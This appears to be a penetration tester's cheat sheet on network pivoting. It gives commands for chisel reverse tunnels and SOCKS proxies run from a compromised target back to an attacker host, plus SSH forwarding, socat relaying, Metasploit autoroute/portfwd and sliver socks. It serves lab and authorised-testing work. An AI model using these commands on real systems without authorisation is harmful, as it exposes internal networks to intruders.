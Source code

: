 ```yaml
---
title: "Network Traffic Pivoting"
date: 2024-6-26
tags: ["pivot", "chisel", "ssh", "metasploit", "network", "socat", "port forward", "tunneling"]
---
```


---
### Tunneling

{{< tab set1 tab1 active >}}Chisel{{< /tab >}}
{{< tab set1 tab2 >}}ssh{{< /tab >}}
{{< tab set1 tab3 >}}socat{{< /tab >}}
{{< tab set1 tab4 >}}metasploit{{< /tab >}}
{{< tab set1 tab5 >}}sliver{{< /tab >}}
{{< tabcontent set1 tab1 >}} 

#### Start a local chisel Server

<div>

```bash
# In our local Linux machine
./chisel server --reverse --port 8000
```

</div>

#### Ports forwarding

<div>

```bash
# In target machine
./chisel client 10.10.14.10:8000 R:8080:127.0.0.1:8080
```

```bash
# Mutiple ports fowarding, can be different targets in the same subnet
./chisel client 10.10.14.10:8000 R:8080:172.17.0.2:8080 R:5000:172.17.0.3:5000
```

</div>

#### Socks5

<div>

```bash
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```bash
# Add to the end of the file
socks5 127.0.0.1 1080
```

```bash
# In target machine
./chisel client 10.10.11.10:8000 R:1080:socks
```

```bash
# Usage, in our local machine
proxychains4 curl http://127.0.0.1:1080
```

</div>

<small>*Ref: [chisel](https://github.com/jpillora/chisel)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
# SSH port forwarding without spawning a shell
ssh -N -L 8080:127.0.0.1:8080 <USER>@10.10.11.10
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```bash
# Any traffic go to port 1337 will be forwarded to 10.10.14.10:1337
./socat tcp-listen:1337,fork tcp:10.10.14.10:1337 &
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Ports forwarding

<div>

```bash
# Add
portfwd add -l 80 -r 127.0.0.1 -p 80
```

```bash
# Delete
portfwd delete -l 80 -r 127.0.0.1 -p 80
```

</div>

#### Socks5

<div>

```bash
# First add routes to target subnet
use post/multi/manage/autoroute
```

```bash
set session <ID>
```

```bash
run
```

```bash
# Then create socks proxy
use auxiliary/server/socks_proxy
```

```bash
run
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

<div>

```bash
socks5 start
```

</div>

{{< /tabcontent >}}

<br>

